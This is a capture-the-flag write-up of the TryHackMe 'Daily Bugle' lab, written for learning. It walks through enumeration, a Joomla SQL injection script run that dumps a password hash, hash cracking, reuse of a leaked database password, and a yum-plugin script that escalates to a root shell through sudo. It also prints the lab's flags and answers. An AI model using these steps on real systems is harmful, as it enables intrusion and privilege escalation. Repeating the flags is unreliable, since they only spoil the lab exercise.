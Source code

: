 ```yaml
---
layout: post
title: THM — Daily Bugle
date: 2022-09-30 00:00:00 -500
categories: [TryHackMe]
tags: [SQLi, Gobuster]
---
```


<img src="/assets/images/THM/Daily%20Bugle/logo.png" alt="Daily Bugle Logo" width="30%">

***
<center><strong><font color="White">Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.</font></strong></center>

***

## <strong><font color="#34A5DA">Reccon</font></strong>

First, nmap scan:
```
vladislav@Mac ~ % nmap -sV -sC 10.10.25.68
Starting Nmap 7.93 ( https://nmap.org ) at 2022-09-30 08:37 MSK
Nmap scan report for 10.10.25.68
Host is up (0.065s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68ed7b197fed14e618986dc58830aae9 (RSA)
|   256 5cd682dab219e33799fb96820870ee9d (ECDSA)
|_  256 d2a975cf2f1ef5444f0b13c20fd737cc (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-generator: Joomla! - Open Source Content Management
|_http-title: Home
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.90 seconds
```

On port 80 there is an http server, let's visit the website:

<img src="/assets/images/THM/Daily%20Bugle/website.png" alt="Daily Bugle Website" width="70%">

> Who robbed the bank? `Spiderman`

Simple SQLi does not work and there are no information about what version of Joomla is it.

Let's use Gobuster to find other subpages:

```console
vladislav@Mac ~ % gobuster dir -u http://10.10.148.251 -w dsstorewordlist.txt
Error: error on parsing arguments: wordlist file "dsstorewordlist.txt" does not exist: stat dsstorewordlist.txt: no such file or directory
vladislav@Mac ~ % gobuster dir -u http://10.10.148.251 -w share/wordlists/dirs/dsstorewordlist.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.148.251
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                share/wordlists/dirs/dsstorewordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/30 16:51:58 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 236] [--> http://10.10.148.251/images/]
/robots.txt           (Status: 200) [Size: 836]                                   
/index.php            (Status: 200) [Size: 9280]                                  
/.htaccess            (Status: 403) [Size: 211]                                   
/templates            (Status: 301) [Size: 239] [--> http://10.10.148.251/templates/]
/cache                (Status: 301) [Size: 235] [--> http://10.10.148.251/cache/]    
/includes             (Status: 301) [Size: 238] [--> http://10.10.148.251/includes/] 
/plugins              (Status: 301) [Size: 237] [--> http://10.10.148.251/plugins/]  
/media                (Status: 301) [Size: 235] [--> http://10.10.148.251/media/]    
/modules              (Status: 301) [Size: 237] [--> http://10.10.148.251/modules/]  
/tmp                  (Status: 301) [Size: 233] [--> http://10.10.148.251/tmp/]      
/components           (Status: 301) [Size: 240] [--> http://10.10.148.251/components/]
/bin                  (Status: 301) [Size: 233] [--> http://10.10.148.251/bin/]       
/language             (Status: 301) [Size: 238] [--> http://10.10.148.251/language/]  
/libraries            (Status: 301) [Size: 239] [--> http://10.10.148.251/libraries/] 
/cli                  (Status: 301) [Size: 233] [--> http://10.10.148.251/cli/]       
/administrator        (Status: 301) [Size: 243] [--> http://10.10.148.251/administrator/]
/LICENSE.txt          (Status: 200) [Size: 18092]                                        
/layouts              (Status: 301) [Size: 237] [--> http://10.10.148.251/layouts/]      
/htaccess.txt         (Status: 200) [Size: 3005]                                         
/README.txt           (Status: 200) [Size: 4494]                                         
/configuration.php    (Status: 200) [Size: 0]                                            
/.htpasswd            (Status: 403) [Size: 211]                                          
/.htpasswds           (Status: 403) [Size: 212]                                          
/.user.ini            (Status: 403) [Size: 211]                                          
/web.config.txt       (Status: 200) [Size: 1690]                                         
                                                                                         
===============================================================
2022/09/30 16:52:13 Finished
===============================================================
```

One more wordlist:
```console
vladislav@Mac ~ % gobuster dir -u http://10.10.148.251 -w share/wordlists/dirs/big.txt             
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.148.251
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                share/wordlists/dirs/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/30 17:13:03 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 211]
/.htaccess            (Status: 403) [Size: 211]
/administrator        (Status: 301) [Size: 243] [--> http://10.10.148.251/administrator/]
/bin                  (Status: 301) [Size: 233] [--> http://10.10.148.251/bin/]          
/cache                (Status: 301) [Size: 235] [--> http://10.10.148.251/cache/]        
/cgi-bin/             (Status: 403) [Size: 210]                                          
/cli                  (Status: 301) [Size: 233] [--> http://10.10.148.251/cli/]          
/components           (Status: 301) [Size: 240] [--> http://10.10.148.251/components/]   
/images               (Status: 301) [Size: 236] [--> http://10.10.148.251/images/]       
/includes             (Status: 301) [Size: 238] [--> http://10.10.148.251/includes/]     
/language             (Status: 301) [Size: 238] [--> http://10.10.148.251/language/]     
/layouts              (Status: 301) [Size: 237] [--> http://10.10.148.251/layouts/]      
/libraries            (Status: 301) [Size: 239] [--> http://10.10.148.251/libraries/]    
/media                (Status: 301) [Size: 235] [--> http://10.10.148.251/media/]        
/modules              (Status: 301) [Size: 237] [--> http://10.10.148.251/modules/]      
/plugins              (Status: 301) [Size: 237] [--> http://10.10.148.251/plugins/]      
/robots.txt           (Status: 200) [Size: 836]                                          
/templates            (Status: 301) [Size: 239] [--> http://10.10.148.251/templates/]    
/tmp                  (Status: 301) [Size: 233] [--> http://10.10.148.251/tmp/]          
                                                                                         
===============================================================
2022/09/30 17:16:02 Finished
===============================================================
```

robots.txt file:
```
User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

Looking at README.txt we can get the version of Joomla.

> What is the Joomla version? `3.7.0`

Moreover, we can use msfconsole to check the version:
```console
umsf6 > se auxiliary/scanner/http/joomla_version
msf6 auxiliary(scanner/http/joomla_version) > set RHOSTS 10.10.148.251
msf6 auxiliary(scanner/http/joomla_version) > run

[*] Server: Apache/2.4.6 (CentOS) PHP/5.6.40
[+] Joomla version: 3.7.0
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

***

## <strong><font color="#34A5DA">Exploitation</font></strong>

As THM suggests, we can search for a python script instead of SQLi. Found <a href="https://github.com/stefanlucas/Exploit-Joomla">this one</a>. Download it via wget and run:
```console
vladislav@Mac ~ % python3 joomblah.py http://10.10.148.251
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

So, we got username and his password hash. The hash starts with `$2y$` and google says that it's BCrypt. So let's use JohnTheRipper to crack the password:
```console
vladislav@Mac ~ % john joo_pass --format=bcrypt --wordlist=share/wordlists/rockyou.txt --fork=10
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X2])
Cost 1 (iteration count) is 1024 for all loaded hashes
Node numbers 1-10 of 10 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status
Use the "--show" option to display all of the cracked passwords reliably
Session completed

vladislav@Mac ~ % john joo_pass --format=bcrypt --show                                          
?:spiderman123

```

After running for the first time, it was obvious that it would theoretically take enermous time to crack the pass. So by adding `-fork=10` we use parallelization with 10 processes.

So we get the password: `spiderman123`.

> What is Jonah's cracked password? `spiderman123`

Now we can log into Joomba CMS located at `http://10.10.198.38/administrator/index.php`.

I didn't find any shells or something like that, so went to Google with `Joomla Reverse Shell` and found <a href="https://vk9-sec.com/reverse-shell-on-any-cms/">this article</a>. Following the instruction in this article we can get the reverse shell. However, we are an unpriviliged user. Searching for classic ways of privilege escalation, so let's try some automated tools for searching.

***

## <strong><font color="#34A5DA">Privilege Escalatio</font></strong>

Several tools can help you save time during the enumeration process. These tools should only be used to save time knowing they may miss some privilege escalation vectors. Below is a list of popular Linux enumeration tools with links to their respective Github repositories.

The target system’s environment will influence the tool you will be able to use. For example, you will not be able to run a tool written in Python if it is not installed on the target system. This is why it would be better to be familiar with a few rather than having a single go-to tool.

- **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)
- **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

However, I didn't manage to execute any of these. So I went searching manually. Finally, in `/var/www/html` we can find file `configuration.php` containing next:
```php
<?php
class JConfig {
	public $offline = '0';
	public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
	public $display_offline_message = '1';
	public $offline_image = '';
	public $sitename = 'The Daily Bugle';
	public $editor = 'tinymce';
	public $captcha = '0';
	public $list_limit = '20';
	public $access = '1';
	public $debug = '0';
	public $debug_lang = '0';
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'root';
	public $password = 'nv5uz9r3ZEDzVjNu';
	public $db = 'joomla';
	public $dbprefix = 'fb9j5_';
	public $live_site = '';
	public $secret = 'UAMBRWzHO3oFPmVC';
	public $gzip = '0';
	public $error_reporting = 'default';
	public $helpurl = 'https://help.joomla.org/proxy/index.php?keyref=Help{major}{minor}:{keyref}';
	public $ftp_host = '127.0.0.1';
	public $ftp_port = '21';
	public $ftp_user = '';
	public $ftp_pass = '';
	public $ftp_root = '';
	public $ftp_enable = '0';
	public $offset = 'UTC';
	public $mailonline = '1';
	public $mailer = 'mail';
	public $mailfrom = 'jonah@tryhackme.com';
	public $fromname = 'The Daily Bugle';
	public $sendmail = '/usr/sbin/sendmail';
	public $smtpauth = '0';
	public $smtpuser = '';
	public $smtppass = '';
	public $smtphost = 'localhost';
	public $smtpsecure = 'none';
	public $smtpport = '25';
	public $caching = '0';
	public $cache_handler = 'file';
	public $cachetime = '15';
	public $cache_platformprefix = '0';
	public $MetaDesc = 'New York City tabloid newspaper';
	public $MetaKeys = '';
	public $MetaTitle = '1';
	public $MetaAuthor = '1';
	public $MetaVersion = '0';
	public $robots = '';
	public $sef = '1';
	public $sef_rewrite = '0';
	public $sef_suffix = '0';
	public $unicodeslugs = '0';
	public $feed_limit = '10';
	public $feed_email = 'none';
	public $log_path = '/var/www/html/administrator/logs';
	public $tmp_path = '/var/www/html/tmp';
	public $lifetime = '15';
	public $session_handler = 'database';
	public $shared_session = '0';
}
```

There is a root password: `nv5uz9r3ZEDzVjNu`. So, we can switch to root. `su root` doesn't work. However, in `/home` directory we can find user `jjameson`. This works. Inside his home directory we can't find user.txt containing flag.

> What is the user flag? `27a260fe3cba712cfdedb1c86d80442e`.

However, we don't have access to `/root` directory. 

```console
sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

Seraching on gtfobins we can't find to spawn an interactive root shell:
```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

After that we can access `root` directory.

> What is the root flag? `eec3d53292b1821868266858d7fa6f79`